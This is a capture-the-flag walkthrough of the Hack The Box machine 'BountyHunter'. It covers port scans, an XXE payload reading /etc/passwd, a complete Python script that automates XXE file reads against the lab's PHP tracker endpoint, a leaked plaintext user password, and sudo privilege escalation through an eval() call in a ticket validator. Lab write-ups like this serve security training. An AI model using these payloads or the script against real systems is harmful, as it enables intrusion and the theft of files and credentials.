# [BountyHunter](https://app.hackthebox.com/machines/bountyhunter/)

```bash
nmap -p- --min-rate 10000 10.10.11.100 -Pn 
```



Let's look at these open ports, we need to do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.11.100 -Pn 
```




Here, I find web page which is under development cycle. That's `log_submit.php` file.




While I look at request's body, there can be `base64` encoded data.




Let's look at encoded data via [Cyberchef](https://cyberchef.io)




I know that this data is `XML` language.

Now, let's do `XXE` attack by adding new `ENTITY` into XML data.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT bar ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>CWE</cwe>
		<cvss>9.8</cvss>
		<reward>1,000,000</reward>
		</bugreport>
```


Let's submit `base64` and `URL` encoded data of this payload.
We need to turn on checkbox which called `Encode all special chars`.




Let's submit this data into `POST` request.




Now I wrote `Python` script which do this attack automatically.

```python
#!/usr/bin/env python3

import requests
import sys
from base64 import b64encode, b64decode


if len(sys.argv) != 2:
    print(f"usage: {sys.argv[0]} filename")
    sys.exit()

xxe = f"""<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT bar ANY >
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource={sys.argv[1]}" >]>
                <bugreport>
                <title>&xxe;</title>
                <cwe>CWE</cwe>
                <cvss>9.8</cvss>
                <reward>1,000,000</reward>
                </bugreport>"""

payload = b64encode(xxe.encode())

resp = requests.post('http://10.10.11.100/tracker_diRbPr00f314.php',
        data = {'data': payload})

encoded_result = '>'.join(resp.text.split('>')[5:-21])[:-4]
result = b64decode(encoded_result)
print(result.decode())  
```


Let's run this script.

```bash
python3 script.py /etc/passwd
```




Now, it's time to enumerate system files.

I find `db.php` file on `/var/www/html` directory.

```bash
python3 script.py /var/www/html/db.php
```




Here, I got credentials of users, let's check this password for system users.

development: m19RoAU0hP41A1sTsq6K


user.txt




While I run `sudo -l` command to check `privilege escalation`, it says that this user can run `.py` script called 'ticketValidator.py'




Let's content of this file.




I see malicious method called `eval()` which can execute system commands

Line=> validationNumber = eval(x.replace("**", ""))


Now, we need add our system payload in order to be executed.



Let's execute this.
```bash
sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```




I can see clear output of `id` command, let's change this cmdlet via `bash` to get root shell.




Now, I will execute the same script and write filename and got root shell.


root.txt

